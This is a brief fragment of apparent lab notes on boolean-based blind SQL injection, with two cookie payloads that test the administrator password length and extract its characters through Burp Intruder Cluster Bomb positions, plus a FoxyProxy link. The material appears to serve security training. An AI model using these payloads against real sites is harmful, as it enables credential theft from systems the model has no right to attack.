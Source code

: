 * Cookie: TrackingId=A5wnpbmECJ7WwVJF' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'

* Cookie: TrackingId=ZyhiJiwjIThE9gYZ' and (select substring(password,§1§,1) from users where username='administrator')='§a§'--'; session=iU12vYKWPt8Nx0OyETqDVZwcKpXnOdXt


* Attack Type: [Cluster Bomb](https://www.youtube.com/watch?v=LBG_n9fr8sM&t=1546s)
* [FoxyProxy Configuracion](https://albertoestrada.es/hacking/foxyproxy/)

![alt text](image-25.png)

* Payloads 1
![alt text](image-23.png)
